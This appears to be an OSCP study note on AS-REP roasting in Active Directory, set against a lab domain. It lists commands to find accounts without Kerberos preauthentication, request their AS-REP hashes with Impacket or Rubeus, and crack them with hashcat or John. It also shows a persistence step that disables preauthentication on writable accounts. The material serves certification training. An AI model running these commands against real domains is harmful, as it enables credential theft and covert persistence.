 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/13-active-directory-attacks/3-as-rep-roasting/","updated":"2024-01-05T11:36:51.019+01:00"}
---
```


-------
- AS-REP, or Kerberos preauthentication, prevents offline password guessing and attacks against the server responses.
- However, if "_Do not require Kerberos preauthentication_" is enabled for specific users for applications to function properly this can be done.
- In some situations it may be possible to enable it manually also.
-----------
### Enumerate Kerberos preauth disabled:
- Locally on Windows:
```
Get-NetUser -PreauthNotRequired -Verbose | select cn
```
- Remote from kali:
```
impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
```
---------------------
### Remote AS-REP Roasting with Impacket:
- Uses ip address for domain controller and user to authenticate
1. Launch roast:
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```
2. Crack hash:
```
#Hashcat:
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

#John:
john --wordlist=passwords_kerb.txt hashes.asreproast
```

-------
### Local AS-REP Roasting with Rubeus:
1. Launch roast:
```
.\Rubeus.exe asreproast /nowrap
```
2. Crack hash on kali:
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

-----------
### Targeted AS-REP Roasting Abuse/Persistence:
- Set preauth not required for users where we have write privileges:
```
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```
